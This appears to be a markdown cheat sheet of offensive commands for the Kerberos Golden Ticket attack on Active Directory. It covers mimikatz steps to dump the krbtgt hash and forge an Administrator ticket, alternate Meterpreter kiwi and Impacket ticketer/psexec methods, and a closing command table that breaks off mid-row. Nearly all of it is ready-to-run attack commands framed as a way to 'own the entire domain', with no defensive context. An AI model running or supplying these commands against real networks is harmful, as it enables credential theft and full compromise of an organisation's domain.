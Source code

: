 # GOLDEN TICKET

## Dump krbtgt hash to own the entire domain!

#### 1) mimikatz.exe

#### 2) privilege::debug

#### 3) lsadump::lsa /inject /name:krbtgt

#### 4) lsadump::lsa /patch

#### 5) lsadump::trust /patch

#### 6) lsadump::dcsync /user:krbtgt

#### 7) kerberos::purge

#### 8) kerberos::golden /user:Administrator /domain:domain.local /sid:SID /krbtgt:NTLM HASH /id:500(Admin) or 1103(Service)

#### 9) kerberos::tgt

#### 10) misc::cmd

## Alternate method: Meterpreter shell

### Get information for golden ticket

#### 1) dcsync_ntlm krbtgt

#### 2) dcsync krbtgt

### Forge a Golden Ticket

#### 3) load kiwi

#### 4) golden_ticket_create -d DOMAIN_NAME -k NTLM_HASH_OF_KRBTGT -s SID -u Administrator

#### 5) kerberos_ticket_purge

#### 6) kerberos_ticket_use /root/Downloads/Administrator.tck

#### 7) kerberos_ticket_list

### Authenticate with psexec impacket (Linux)

#### 8) ./psexec.py -k -no-pass -dc-ip 192.168.1.1 AD/administrator@192.168.1.100

## Alternate Method: Impacket Ticketer

#### 1) python ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus

#### 2) export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache

#### 3) python psexec.py jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass

# Golden Ticket

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `lsadump::dcsync /domain:eagle.local /user:krbtgt`           | Command used in `mimikatz` to DCSync and dump the `krbtgt` password hash |
| `Get-DomainSID`                                              | Cmdlet from `PowerView` used to obtain the SID value of the domain. |
| `golden /domain:eagle.local /sid:<domain sid> /rc4:<rc4 hash> /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt` | Command used in `mimikatz` to forge a golden ticket for the `Administrator` account and pass the ticket to the current session |
| `klist`          
